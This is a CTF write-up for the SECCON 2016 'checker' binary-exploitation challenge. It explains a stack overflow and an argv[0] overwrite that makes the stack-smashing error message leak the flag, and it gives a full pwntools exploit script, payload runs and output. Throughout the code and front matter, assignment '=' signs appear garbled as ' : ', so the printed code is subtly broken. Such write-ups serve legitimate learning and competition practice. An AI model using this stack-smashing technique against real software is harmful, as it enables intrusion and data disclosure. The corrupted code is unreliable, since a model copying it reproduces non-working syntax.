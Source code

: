 ```yaml
---
type: ctf
title : SECCON CTF 2016 - checker
tags: [SECCON CTF, pybpabbies]
date : 2016-12-12
author: Eno Leriand
featuredImage: https://ctf.seccon.jp/_nuxt/img/logo.3135b18.png
---
```


**Category:** Exploit
**Points:** 300

64 bit ELF with Full RELRO, stack canary, NX enabled, No PIE.  

A quick run of the program: 
```
$ ./checker 
Hello! What is your name?
NAME : 123

Do you know flag?
>> 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : asdf
You are a liar...
```

By reversing the binary, we found that the program use a function named `getaline()` to read the user input. 
```c getaline
while ( buf && read(0, &buf, 1uLL) )
{
    if ( buf == 10 )
        buf : 0;
    *(_BYTE *)(a1 + (signed int)v4++) = buf; // a1 : input buffer
}
```
We can see that the `getaline()` function is just like `gets()` in `stdio.h`, so the program itself has multiple stack overflow vulnerabilities.   

```
$ ./checker
Hello! What is your name?
NAME : 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You are a liar...
*** stack smashing detected ***: ./checker terminated
[1]    70548 abort      ./checker
```

Although we can easily overwrite the return address, however the program has the stack smashing protector (SSP) enabled. Luckliy, the program will read the flag's content and stored it into a buffer which lies in the `.bss` section before entering the main function. So, we can try to **overwrite the content of `argv[0]` ( which stores a `char*` pointer of the program file path ) into the flag buffer's address**. Then, we smash the stack and trigger the SSP, which will then output the following error message: 
```
*** stack smashing detected ***: [flag content] terminated
```

Notice that the original content of `argv[0]` stores a 6 bytes memory address, while the flag's buffer address is 3 bytes (`0x6010c0`). So we'll have to null out the `argv[0]` first before we change it into `0x6010c0`, or else it will crash the program before it was able to output the error message.  
```python exp_checker.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST : "checker.pwn.seccon.jp"
PORT : 14726
ELF_PATH : "./checker"
LIBC_PATH : ""

# setting 
context.arch : 'amd64'
context.os : 'linux'
context.endian : 'little'
context.word_size : 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level : 'INFO'

elf : ELF(ELF_PATH)
#libc : ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res : ""
    while delim not in res:
        c : s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)


if __name__ == "__main__":

    r : remote(HOST, PORT)
    #r : process(ELF_PATH)

    pad : 0x178

    r.sendlineafter(": ", "aaaa")
    
    # null out argv[0]
    for i in xrange(8,-1,-1):
        payload : "A"*pad + "B"*i
        r.sendlineafter(">> ", payload)
    
    r.sendlineafter(">> ", "yes")

    # overwrite argv[0] to flag buffer
    payload : "A"*pad + p64(0x6010c0)
    
    r.sendlineafter(": ", payload)
    r.interactive()
    
```

Although the exploit works on the local machine, it failed to work on the remote side. I sent the payload for like a hundred times and it just won't give me the flag. It really frustrated me at that moment because I was so close to capture the flag and the contest is about to end in 5 minutes......  

But there's nothing more I can do, so I just keep sending the same payload again and again, hoping that  it will work at the end of the contest. And then, something amazing happened...
```
[+] Opening connection to checker.pwn.seccon.jp on port 14726: Done
You are a liar...
*** stack smashing detected ***: SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4} terminated
[*] Got EOF while reading in interactive
```

lol WTF ? 

I still don't know why it will work at the very end of the contest until now ! I mean it's the same payload ! How is this even possible ? Anyway I managed to submit the flag right before the end of the contest and get the damn 300 points ... What an end @_@!  

flag: `SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4}`
